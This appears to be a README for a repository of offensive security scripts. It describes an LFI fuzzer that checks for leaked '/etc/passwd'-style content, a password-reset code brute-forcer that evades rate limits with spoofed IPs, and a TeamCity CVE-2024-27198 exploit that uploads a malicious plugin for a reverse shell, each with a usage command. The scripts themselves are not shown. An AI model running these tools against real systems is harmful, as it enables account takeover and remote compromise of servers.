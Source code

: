 # FuzzingTools

## LFI Fuzzer

A multithreaded Local File Inclusion (LFI) fuzzing tool with a Rich progress bar.
It sends payloads from a wordlist to a target URL, checks for successful inclusion based on keywords, and saves results.

## Usage

python3 lfi_fuzzer.py -w wordlist.txt -u "http://target.com/page?file={}" -t 10 \
-H headers.txt -o all_results.txt -s success.txt -k "root:x:,Windows" -S

## 4-Digit Recovery Code Brute Forcer

This Python script brute-forces a 4-digit numeric recovery code on a vulnerable reset_password.php endpoint. It uses threading, random spoofed IPs (X-Forwarded-For), and a provided PHP session to bypass rate-limiting and speed up the attack.

## Usage
python3 bypass_rate_limiting.py -ip <TARGET_IP> -p <PORT> -SID <PHPSESSID> -t <THREADS>

## TeamCity Evil Plugin Exploit

This script automates the process of building, uploading, enabling, and triggering a malicious TeamCity plugin that provides a reverse shell.

## Usage
python3 teamcity_CVE-2024-27198.py -t http://target:8111 -l 10.10.14.5 -p 4444

